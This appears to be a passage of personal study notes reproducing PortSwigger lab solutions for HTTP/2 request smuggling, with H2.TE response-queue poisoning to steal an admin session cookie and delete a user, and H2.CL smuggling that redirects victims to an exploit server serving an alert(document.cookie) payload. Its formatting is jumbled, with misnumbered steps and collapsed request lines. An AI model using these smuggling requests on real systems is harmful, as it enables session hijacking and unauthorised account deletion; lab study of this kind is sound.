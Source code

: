 ```ad-success
    POST /x HTTP/2 Host: YOUR-LAB-ID.web-security-academy.net Transfer-Encoding: chunked 0 GET /x HTTP/1.1 Host: YOUR-LAB-ID.web-security-academy.net
    ~~~
    
4. Send the request to poison the response queue. You will receive the 404 response to your own request.
    
5. Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.
    
    #### Note
    
    If you receive some 200 responses but can't capture a 302 response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again.
    
6. Copy the session cookie and use it to send the following request:
    
    ~~~
    GET /admin HTTP/2 Host: YOUR-LAB-ID.web-security-academy.net Cookie: session=STOLEN-SESSION-COOKIE
    ~~~
1. Send the request repeatedly until you receive a 200 response containing the admin panel.
    
8. In the response, find the URL for deleting `carlos` (`/admin/delete?username=carlos`), then update the path in your request accordingly. Send the request to delete `carlos` and solve the lab.
```

# H2.CL request smuggling
Reference: https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling

```ad-success
title: Solution
1. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request by including a `Content-Length: 0` header as follows. Remember to expand the Inspector's **Request Attributes** section and make sure the protocol is set to HTTP/2 before sending the request.
    
    ~~~
    POST / HTTP/2 Host: YOUR-LAB-ID.web-security-academy.net Content-Length: 0 SMUGGLED
    ~~~
1. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
    
3. Using Burp Repeater, notice that if you send a request for `GET /resources`, you are redirected to `https://YOUR-LAB-ID.web-security-academy.net/resources/`.
    
4. Create the following request to smuggle the start of a request for `/resources`, along with an arbitrary `Host` header:
    
    ~~~
    POST / HTTP/2 Host: YOUR-LAB-ID.web-security-academy.net Content-Length: 0 GET /resources HTTP/1.1 Host: foo Content-Length: 5 x=1
    ~~~
1. Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
    
6. Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)`, then store the exploit.
    
```